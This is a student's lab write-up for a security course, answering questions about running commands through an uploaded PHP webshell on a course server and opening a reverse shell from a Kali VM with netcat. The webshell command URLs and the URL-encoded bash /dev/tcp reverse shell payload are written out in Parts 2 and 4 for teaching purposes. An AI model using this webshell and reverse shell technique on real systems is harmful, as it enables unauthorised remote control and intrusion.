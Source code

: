 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## FIRST REVERSE SHELL ##

### Part 1: Installing a PHP webshell ###

a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

>  *To execute the whoami command on the server, I accessed the path to my uploaded web shell file in the URL and included ***?command=whoami****, so my URL looks like this: 
 http://danger.jeffondich.com/uploadedimages/muhozal-webshell1.php?command=whoami
>
>  *The uploaded PHP code then checks if a command parameter is provided in the URL and executes that specified command through the system function, thus allowing remote code execution.
The resulting output is the name of the user under which the web server is running, in this case www-data.*


b. What is this webshell's ```<pre>``` tag for? (And more to the point, what happens if you leave it out?)

> *The ```<pre>``` tag ensures that the output from the system function is displayed in a well-structured and readable way. Leaving out the tag would result into a messy output since HTML would ignore whitespace and line breaks thus making elements like lists of files or directories harder to read.*

*****
### Part 2: Looking around ###

a. What directory is danger's website located in?

> *Using the **pwd** command, the directory in which danger's website is located in is: **/var/www/danger.jeffondich.com***

b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

> *Using ```command=ls /home```, I was able to find the two main user directories on danger.jeffondich.com in the home directory. These user accounts are **bullwinkle** and **jeff***

c. Do you have access to the file /etc/passwd? What's in it?

> *I attempted to access ```/etc/passwd``` using ```cat /etc/passwd``` but encountered a site error, suggesting that direct access to the file is restricted.*

d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)

> *No, I do not have access to ```/etc/shadow```.*
>
> *This file stores encrypted user passwords and other information about user accounts. Each entry typically includes fields like the username, hashed password, last password change, and password expiration policies.*

e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

> *I found a moose using ```command=cat /home/jeff/supersecret.txt```*

f. [Optional] Report on anything else interesting you discover.

> *I was frustrated but eventually found it helpful that the ```cd``` command does not work in web shell.*
> 
> *I learned that when I send a command via a PHP web shell, it’s executed in a new, isolated shell session every time. Any directory changes made with cd exist only in that temporary shell, which closes immediately after the command runs. This allows me to explore diffent directories without needing ```cd```.*

****
### Part 3: Setup for part 4 ###
****

### Part 4: Launching a reverse shell ###

a. What is the IP address of your Kali VM (the target machine)? How did you find out?

> *The IP address of my Kali VM in 192.168.64.2. I found it by running the `ip a` command in my Kali terminal and inspecting the eth0 interface section*

b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

> *I was able to obtain the IP address of my macOS by running the `ifconfig | grep inet` command in my terminal. Here is the list of present IP addressed:*
>
>```
>	inet 127.0.0.1 netmask 0xff000000
>	inet6 ::1 prefixlen 128 
>	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
>	inet6 fe80::a494:37ff:fecf:e5d5%ap1 prefixlen 64 scopeid 0xb 
>	inet6 fe80::1c5b:29b2:d71e:3487%en0 prefixlen 64 secured scopeid 0xc 
>	inet 10.133.0.214 netmask 0xffffe000 broadcast 10.133.31.255
>	inet6 fe80::4c06:6dff:fe19:7ce2%awdl0 prefixlen 64 scopeid 0xd 
>	inet6 fe80::4c06:6dff:fe19:7ce2%llw0 prefixlen 64 scopeid 0xe 
>	inet6 fe80::a05f:d8e8:8da2:d878%utun0 prefixlen 64 scopeid 0xf 
>	inet6 fe80::d48b:7e2a:ed1d:51fa%utun1 prefixlen 64 scopeid 0x10 
>	inet6 fe80::9b38:4747:3b6c:256d%utun2 prefixlen 64 scopeid 0x11 
>	inet6 fe80::ce81:b1c:bd2c:69e%utun3 prefixlen 64 scopeid 0x12 
>	inet6 fe80::4942:7591:c656:402e%utun4 prefixlen 64 scopeid 0x13 
>	inet6 fe80::7001:54e0:1851:ca5d%utun5 prefixlen 64 scopeid 0x14 
>	inet6 fe80::4a03:9414:840e:86b2%utun6 prefixlen 64 scopeid 0x17 
>	inet6 fe80::6905:89f9:1401:c108%utun7 prefixlen 64 scopeid 0x18 
>	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
>	inet6 fe80::8494:37ff:fefc:8b64%bridge100 prefixlen 64 scopeid 0x16 
>	inet6 fd6a:c3ab:6dda:5cc4:1c66:5278:ac7d:564 prefixlen 64 autoconf secured 
>```
> *The **IP 192.168.64.1** should be used to communicate with Kali, given that my Kali VM has the **IP address 192.168.64.2**. This makes both machines part of the same local network, allowing for direct communication.*

c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

> *Ran the command nc -l 5050 in my mac terminal*

d. In a browser on your host machine, use your web shell to go to this crazy URL.

> *My URL is: http://192.168.64.2/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5050%200%3E%261%22*

e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

> *I have successfully established a reverse shell connection from my Kali VM back to my macOS. The output show `www-data@kali:/var/www/html$`*
>
> *Yes, I can execute commands on Kali from my macOS now. Here is a screenshot of the `ls` command that listed the files in the `/var/www/html` directory and `whoami` command that displayed the username of the current user on Kali:*
>
>  <img width="255" alt="Screenshot 2024-10-29 at 2 55 31 PM" src="https://github.com/user-attachments/assets/ea34c3b3-f027-4dc6-97d0-bf108de33cf9">
>
> *I know the shell is from my Kali because the prompt shows `www-data@kali`, where www-data is the username and kali is the hostname of the Kali VM. And, when I run pwd to see my current working directory, the output is `/var/www/html`, which is the default location for the Apache web server on Kali Linux.*

f. What are all those % codes in the URL you used?

> *The % codes in the URL are URL-encoded representations of special characters. This is necessary because URLs cannot include certain characters directly; instead, they must be represented in a format that can be safely transmitted over the internet. Using [this documentation](https://www.w3schools.com/tags/ref_urlencode.ASP) as reference, for example: %20 represents a space and %22 represents a double quote "" and %26 represents an ampersand &.*

g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.

> * *I started netcat listener on my macOS that waits for incoming connections on a specified port i.e `nc -l 5050`*
> * *I then sent the command that uses bash to create a reverse shell through a URL to webshell.php that was uploaded in part 3. The system function in webshell.php helps execute the `bash` command that tells Kali VM to connect back to my macOS (attacker’s machine).*
> * *The Kali VM hence establishes a connection to my macOS's IP address and port 5050 as specified in the command.*
> * *I can now interact with shell on Kali VM by executing commands from my macOS*
>
> * *Here is a diagram that summarizes my description:*
> 
> ![IMG_0176](https://github.com/user-attachments/assets/490f7904-72b8-424f-b234-f52ef2c6c6fb)

